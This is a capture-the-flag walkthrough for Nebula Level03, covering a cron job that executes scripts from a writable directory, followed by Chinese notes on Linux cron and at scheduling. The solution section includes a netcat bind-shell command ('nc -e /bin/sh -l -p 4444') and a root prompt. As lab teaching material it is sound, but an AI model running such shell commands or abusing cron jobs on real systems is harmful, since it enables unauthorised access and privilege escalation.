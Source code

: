 # Level03

#### About

Check the home directory of flag03 and take note of the files there.  
There is a crontab that is called every couple of minutes. 

To do this level, log in as the level03 account with the password level03. Files for this level can be found in /home/flag03. 


#### Source code

There is no source code available for this level  
```
cat  /home/flag03/writeable.sh
#!/bin/sh

for i in /home/flag03/writeable.d/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

#### Solutions
```
level03@nebula:~$ cat ./test.sh
#!/bin/sh

/bin/getflag >> /tmp/a.out
level03@nebula:~$ cat ./test1.sh
#!/bin/sh

nc.traditional -v -e /bin/sh -l -p 4444
root@nebula:~#: ls /var/spool/cron/crontabs
flag03 root 
```

#### Recommend

Linux 计划任务/日志/优先级 

* 一次性定时任务
at, batch, atq, atrm  
atd  ----> at ---- /var/spool/cron/atjobs 
              ---- /var/spool/cron/atspool 
              ---- /proc/loadavg 
              ---- /var/run/utmp 
              ---- /etc/at.allow 
              ---- /etc/at.deny 


* 循环定时任务
cron ---- crontab  ---- /etc/crontab 
                    ---- /etc/cron.allow 
                    ---- /etc/cron.deny 
                    ---- /var/spool/cron/crontabs/*  
         
         ---- /etc/rc.local 
```
level03@nebula:~$ cat /etc/rc.local  
#!/bin/bash

start-stop-daemon -b -c flag12 -S /home/flag12/flag12.lua -x `which lua`
start-stop-daemon -b -c flag17 -S /home/flag17/flag17.py -x `which python`
/usr/sbin/thttpd -C /home/flag07/thttpd.conf
/usr/sbin/thttpd -C /home/flag16/thttpd.conf

* * * * * command to be executed
- - - - -
| | | | |
| | | | ----- Day of week (0 - 7) (Sunday=0 or 7)
| | | ------- Month (1 - 12)
| | --------- Day of month (1 - 31)
| ----------- Hour (0 - 23)
------------- Minute (0 - 59)

*   ---- 代表任何时刻
，  ---- 1，5，10 代表第1，第5，第10，
-   ---- 1-24，代表1到24
/n  ---- 间隔为n
```
